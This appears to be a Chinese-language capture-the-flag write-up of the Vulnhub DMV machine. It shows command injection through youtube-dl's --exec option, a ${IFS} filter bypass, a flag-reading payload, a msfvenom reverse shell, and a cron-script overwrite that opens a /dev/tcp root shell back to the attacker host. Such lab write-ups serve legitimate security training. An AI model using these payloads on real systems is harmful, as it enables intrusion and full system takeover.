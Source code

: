 ```yaml
---
title: 'DMV: Walkthrough'
date: 2020-05-05T14:08:27+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`nmap -sn 192.168.1.1/24`

### 网络拓扑

| 计算机  | IP              |
| ---- | --------------- |
| Kali | `192.168.1.105` |
| DMV  | `192.168.1.110` |

### 扫描端口和版本信息

`nmap -A 192.168.1.110`

![1.png](https://i.loli.net/2020/05/05/sFEkw6RG9WDnMaQ.png) 

### 访问Web并确定web应用

访问 _80_ 端口有个输入框，此外查看网页源码发现一个 JS 脚本。大意就是将用户输入的内容作为值与字符串（_`https://www.youtube.com/watch?v=`_）结合传递给 _yt_url_ 参数，并根据返回结果做出相应输出，因此这里可能存在命令注入漏洞

![2.png](https://i.loli.net/2020/05/05/LgI1ki4FdDfKeQM.png) 

![3.png](https://i.loli.net/2020/05/05/F74AqkzCRbMODst.png) 

在输出框里输入 _123_，并转到 BP 上进行操作

![4.png](https://i.loli.net/2020/05/05/SKe41zHvWLukOnX.png) 

根据返回的报错信息可以确定服务器端运行 **youtube-dl** 这一下载 YouTube 上视频的命令行程序，通过查看支持的参数，发现 `--exec` 参数可以执行命令

![5.png](https://i.loli.net/2020/05/05/Wd6wvbjKoEhPnur.png) 

结果经过多次尝试发现并不能正常执行，同时也确定服务器端存在字符过滤。要想知道哪些字符被过滤，哪些字符没有过滤，那么就需要进行 Fuzzing

> 使用 [SecLists](https://github.com/danielmiessler/SecLists) 字典库中 Fuzzing 部分的 _special-chars.txt_ 字典进行操作 

![6.png](https://i.loli.net/2020/05/05/8pC7VwFRNimhOlL.png) 

根据返回结果的不同，可以发现返回结果中带 _sh: 1: cannot open_ 字符串的都是没有被过滤的字符，因此对执行结果进行过滤后确定以下字符没有被过滤

```bash
(
)
&
`
|
'
"
<
;
```

![7.png](https://i.loli.net/2020/05/05/pDd2MWgePqwNuQ5.png) 

其中反引号在 Linux 系统中可以执行命令，比如

`echo \`ls\``

此外分号起到分隔命令的作用，多次尝试后如下传参，命令可以正常执行

![8.png](https://i.loli.net/2020/05/05/V3MCPkOSNzaYRGo.png) 

但是当命令中存在空格时也会被过滤

![9.png](https://i.loli.net/2020/05/05/6wFgnxqe2GlUj4T.png) 

采用 Linux 中[空格绕过](https://www.freebuf.com/articles/web/137923.html)方法，将空格替换为`${IFS}`可以绕过

![10.png](https://i.loli.net/2020/05/05/G76RIu1hdWoU4Kx.png) 

### 寻找 Flag 文件

![11.png](https://i.loli.net/2020/05/05/FuiVrIexgBWMtPs.png) 

在 `/var/www/html/admin` 目录下存在 `_flag.txt_` 文件，因此如下传参就可以读到文件内容

<pre><code class="line-numbers">yt_url=%3c`cat${IFS}/var/www/html/admin/flag.txt`
</code></pre>

接下来的步骤就是读 _/root_ 目录下的 flag 文件了。为了操作方便，进行 getshell

> 本机（Kali）开启 **8088** 端口（`python3 -m http.server 8088`），并且在目录下使用 _msfvenom_ 生成反向 shell 脚本
> 
> `msfvenom -p python/shell_reverse_tcp LHOST=192.168.1.105 LPORT=8866 -f raw > recvshell.py` 

![12.png](https://i.loli.net/2020/05/05/Au1kxdQlcwB4XFj.png) 

在本机监听 **8866** 端口，就可以 getshell

![13.png](https://i.loli.net/2020/05/05/MuymelzCY3DQLjA.png) 

得到 _itsmeadmin_ 账号密码和一段 shell 脚本 （_clean.sh_)

`rm - rf downloads`

看来在此之前将 _downloads_ 目录给删除了，这时想到 CTF 中遇到脚本的常见套路就是定时任务 _crontab_ 了，因此我们将此连接转到 _bash_

![14.png](https://i.loli.net/2020/05/05/OELFSwcKiAvonTH.png) 

本机监听 **4466** 端口，并在 GitHub 上下载 [pspy](https://github.com/DominicBreuker/pspy) 程序，该程序的功能就是旨在无需 root 权限即可监听进程。因此我们可以查看是否存在 _cron_ 进程。这里我们根据虚拟机的信息下载 64 位的程序

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
./pspy64
```

![15.png](https://i.loli.net/2020/05/05/MmcRhSIviB4baPl.png) 

可以看到 root 用户使用 _cron_ 每一分钟自动执行 _clean.sh_ 脚本。接下来的工作很明显，只要我们把脚本写到 clean.sh 文件就会被 root 用户自动执行，因此执行该命令

`echo "bash -c 'bash -i >& /dev/tcp/192.168.1.105/4455 0>&1'" > /var/www/html/tmp/clean.sh`

本机监听 **4455** 端口，再过一分钟就可以拿到 root 权限

![16.png](https://i.loli.net/2020/05/05/RhfNITCVspxnerK.png)